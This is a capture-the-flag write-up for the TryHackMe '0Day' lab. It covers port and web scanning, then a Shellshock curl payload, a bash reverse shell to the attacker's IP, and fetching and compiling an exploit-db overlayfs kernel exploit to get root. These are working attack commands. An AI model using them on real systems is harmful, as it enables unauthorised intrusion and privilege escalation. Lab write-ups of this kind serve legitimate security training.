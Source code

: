 #Title: 0Day

#Difficulty: Medium

#Type: Kernel Exploit

#By Fagan Afandiyev.

```shell
THM="10.10.78.47"
```

```bash
nmap -sC -sV $THM
```

```shell
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 6.6.1p1 Ubuntu 2ubuntu2.13 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   1024 57:20:82:3c:62:aa:8f:42:23:c0:b8:93:99:6f:49:9c (DSA)
|   2048 4c:40:db:32:64:0d:11:0c:ef:4f:b8:5b:73:9b:c7:6b (RSA)
|   256 f7:6f:78:d5:83:52:a6:4d:da:21:3c:55:47:b7:2d:6d (ECDSA)
|_  256 a5:b4:f0:84:b6:a7:8d:eb:0a:9d:3e:74:37:33:65:16 (ED25519)
80/tcp open  http    Apache httpd 2.4.7 ((Ubuntu))
|_http-title: 0day
|_http-server-header: Apache/2.4.7 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

There are 2 ports open: 22,80. We see that there is a website running here.

Lets check with nikto.

```bash
nikto --url http://$THM  
```

```shell
- Nikto v2.5.0
---------------------------------------------------------------------------
+ Target IP:          10.10.78.47
+ Target Hostname:    10.10.78.47
+ Target Port:        80
+ Start Time:         2023-11-12 19:57:39 (GMT-5)
---------------------------------------------------------------------------
+ Server: Apache/2.4.7 (Ubuntu)
+ /: The anti-clickjacking X-Frame-Options header is not present. See: https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/X-Frame-Options
+ /: The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type. See: https://www.netsparker.com/web-vulnerability-scanner/vulnerabilities/missing-content-type-header/
+ Apache/2.4.7 appears to be outdated (current is at least Apache/2.4.54). Apache 2.2.34 is the EOL for the 2.x branch.
+ /: Server may leak inodes via ETags, header found with file /, inode: bd1, size: 5ae57bb9a1192, mtime: gzip. See: http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2003-1418
+ OPTIONS: Allowed HTTP Methods: GET, HEAD, POST, OPTIONS .
+ /cgi-bin/test.cgi: Uncommon header '93e4r0-cve-2014-6271' found, with contents: true.
+ /cgi-bin/test.cgi: Site appears vulnerable to the 'shellshock' vulnerability. See: http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2014-6278
+ /admin/: This might be interesting.
+ /backup/: This might be interesting.
+ /css/: Directory indexing found.
+ /css/: This might be interesting.
+ /img/: Directory indexing found.
+ /img/: This might be interesting.
+ /secret/: This might be interesting.
+ /cgi-bin/test.cgi: This might be interesting.
+ /icons/README: Apache default file found. See: https://www.vntweb.co.uk/apache-restricting-access-to-iconsreadme/


```

There are couple important parts to look at: */admin/* */backup/* */secret/*.
*/admin/* and */secret/* directories are empty but backup includes s ssh key that we can decrypty but there are more to look at right now.

It appears that there is a `shellshock` vulnerability at `/cgi-bin/test.cgi`. We can use curl to exploit it and run commands in server.

```bash
curl -A "() { ignored; }; echo Content-Type: text/plain ; echo ; echo ; /usr/bin/id" http://$THM/cgi-bin/test.cgi
```

```shell
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```
We proved this website is vulnerable to shellshock. We can change the code and get a reverse shell.
Lets first start listening with netcat.

```bash
nc -lnvp 22
```


```bash
curl -A "() { ignored; }; echo Content-Type: text/plain ; echo ; echo ; /bin/bash -c 'bash -i >& /dev/tcp/10.6.87.204/22 0>&1'" http://$THM/cgi-bin/test.cgi 
```

```bash
www-data@ubuntu:/usr/lib/cgi-bin$ cat /home/ryan/user.txt
<Redacted>
```

```bash
www-data@ubuntu:/usr/lib/cgi-bin$ whoami
whoami
www-data
```

```bash
www-data@ubuntu:/usr/lib/cgi-bin$ uname -a
uname -a
Linux ubuntu 3.13.0-32-generic #57-Ubuntu SMP Tue Jul 15 03:51:08 UTC 2014 x86_64 x86_64 x86_64 GNU/Linux
```

This version of linux is vulnerable to CVE-2015-1328.
We need to get the exploit to the server for that we will need to download to our own machine and create a python server and wget from our machine.

```bash
#Attacker 
wget https://www.exploit-db.com/download/37292
python -m http.server 
#Enemy
cd /tmp/
wget 10.6.87.204:8000/37292.c
gcc 37292.c -o privesc
```

```shell
gcc: error trying to exec 'cc1': execvp: No such file or directory
```
```bash
export PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
```

```bash
gcc 37292.c -o privesc
./privesc
```
BOOM!!! We are root. We can now go and get the root flag.

```bash
cd /root/
cat root.txt 
<Redacted>
```
